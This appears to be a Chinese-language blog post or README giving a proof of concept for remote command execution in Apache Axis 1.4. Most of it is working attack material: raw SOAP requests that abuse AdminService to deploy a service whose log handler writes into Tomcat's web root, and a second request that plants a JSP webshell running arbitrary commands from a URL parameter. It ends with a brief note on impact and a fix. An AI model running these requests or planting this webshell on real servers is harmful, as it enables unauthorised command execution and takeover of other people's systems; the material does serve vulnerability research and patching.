 ## Axis <=1.4   远程命令执行（RCE） POC

###  环境准备
首先下载Axis1.4 本仓库有一个打包好的axis直接解压到tomcat webapps下即可 ,web-inf/web.xml 去掉AdminServlet注释

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/web-inf.jpg)

然后，server-config.wsdd文件开启enableRemoteAdmin （本地环境可以不管）
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/config.jpg)
本人部署在tomcat8上
### 利用
#### 第一步：
通过services/AdminService 服务 部署一个webservice ,webservice开启一个写文件服务。这里我们要写入的文件名是../webapps/ROOT/shell.jsp，服务模块的工作路径是bin目录，这里利用相对路径写入ROOT目录，也就是tomcat默认根目录。

```
POST /axis/services/AdminService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1063

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
    <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/step1.jpg)
####  第二步
调用上一步创建的恶意webservice 写入webshell
```
POST /axis/services/RandomService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 878

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>

```
返回500，不用管，但是文件已经创建成功了
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/stap2.jpg)
看我们ROOT目录下shell文件，虽然有些错误，但是不影响，因为是log模式，有追加内容
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/shell.jpg)
#### 第三部执行shell.jsp
浏览器访问 http://localhost:8080/shell.jsp?c=cmd%20/c%20ipconfig

同样忽略网页报错
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd.jpg)
网页右键查看源码，可以看执行命令的结果。

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd1.jpg)

python 脚本下载地址：
 [POC](https://github.com/KibodWapon/Axis-1.4-RCE-Poc/blob/master/Axis1.4_rce_poc.py "Axis1.4_rce_poc.py").


### 影响和修复
默认情况下service远程管理没开启，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf/web.xml 里的AdminServlet，然后重启tomcat.
```
  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/servlet/AdminServlet</url-pattern>
  </servlet-mapping>

```

